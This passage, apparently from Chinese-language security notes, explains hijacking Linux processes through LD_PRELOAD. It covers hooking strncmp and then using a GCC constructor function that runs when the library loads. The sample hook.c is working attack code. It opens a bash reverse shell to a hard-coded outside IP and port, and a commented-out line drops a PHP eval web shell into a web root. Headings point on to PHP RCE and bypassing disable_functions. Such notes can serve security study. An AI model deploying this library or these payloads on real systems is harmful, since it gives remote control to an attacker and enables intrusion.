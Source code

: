 <img src="E:\typora img\QQ截图20221107134218.jpg" alt="QQ截图20221107134218" style="zoom:67%;" />

从源码中找到的

<img src="E:\typora img\QQ截图20221107134226.jpg" alt="QQ截图20221107134226" style="zoom: 67%;" />

编译形成.so文件

```shell
gcc -shared -fPIC hook_strncmp.c -o hook_strncmp.so
```

环境变量设置优先级

```shell
export LD_PRELOAD=$PWD/hook_strncmp.so
```

执行命令结果

![image-20221107135601599](../images/image-20221107135601599-1686813288526.png)





## 更为简单的劫持

GCC 有个 C 语言扩展修饰符 __attribute__((constructor))，可以让由它修饰的函数在 main() 之前执行，若它出现在动态链接库中，那么**一旦动态链接库被系统加载，将立即执行 _attribute((constructor)) 修饰的函数**。这样，我们就不用局限于仅劫持某一函数，而应考虑劫持动态链接库了，也可以说是劫持了一个新进程。

- hook.c

  ```c
  #include <stdlib.h>
  #include <stdio.h>
  #include <string.h>
  
  __attribute__ ((__constructor__)) void preload (void){
      unsetenv("LD_PRELOAD");
      system("bash -c 'bash -i >& /dev/tcp/120.77.73.212/2333 0>&1'");
      //system("echo \"<?php eval(\\$_POST[cmd]);?>\" > /var/www/html/shell.php");
  }
  ```

- 编译形成.so文件

  ```shell
  gcc -shared -fPIC hook.c -o hook.so
  ```

  



## PHP中

- RCE
- 绕过disable_function
